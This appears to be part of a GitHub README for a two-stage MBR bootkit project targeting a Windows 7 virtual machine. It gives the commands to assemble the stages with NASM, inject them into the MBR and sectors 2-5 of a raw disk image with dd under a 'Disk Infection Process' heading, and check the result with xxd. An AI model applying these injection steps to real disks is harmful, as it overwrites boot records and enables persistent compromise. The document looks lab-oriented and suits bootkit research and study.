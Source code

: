 
## 🛠️ Development Workflow

### Note: You will need to make adjustments to the commands according to your specific paths.

### Phase 1: Environment Preparation

**Prerequisites Setup:**
```bash
# Ensure Windows 7 VM is properly configured
# Take clean snapshot before any modifications
# Install NASM assembler and required tools
```

**⚠️ Critical Prerequisite**: Learn Windows 7 VM setup from YouTube tutorials and create a **Clean Snapshot** before proceeding.

### Phase 2: Assembly & Compilation

```bash
# Step 1: Create raw disk image from Windows 7 VDI
VBoxManage clonehd "C:\Users\SIA\VirtualBox VMs\Windows 7\Windows 7.vdi" "C:\Users\SIA\clean.raw" --format RAW

# Step 2: cd Path -- compile assembly source to binary
nasm -f bin stage1.asm -o stage1.bin    # Must be exactly 512 bytes
nasm -f bin stage2.asm -o stage2.bin    # Must be exactly 2048 bytes

# Verify binary sizes via file properties
# stage1.bin: 512 bytes (MBR size)
# stage2.bin: 2048 bytes (4 sectors)
```

### Phase 3: Disk Infection Process

```bash
# Step 3: Inject bootkit into disk image
# Write Stage1 to MBR (LBA 0)
dd if=/c/stage1/stage1.bin of=/c/Users/SIA/clean.raw bs=512 seek=0 conv=notrunc

# Write Stage2 to sectors 2-5 (LBA 2-5)
dd if=/c/stage2/stage2.bin of=/c/Users/SIA/clean.raw bs=512 seek=2 conv=notrunc
```

### Phase 4: Verification & Analysis (Skip this step if you want the workflow in one go)

```bash
# Step 4: Verify injection with hex analysis
# View MBR content (Stage1)
xxd -s $((0*512)) -l 512 /c/Users/SIA/clean.raw

# View Stage2 payload (LBA 2-5)
xxd -s $((2*512)) -l $((4*512)) /c/Users/SIA/clean.raw

# ⚠️ WARNING: Hex editing can corrupt your .raw file
# Always work on copies and revert to Step 1 if needed
```
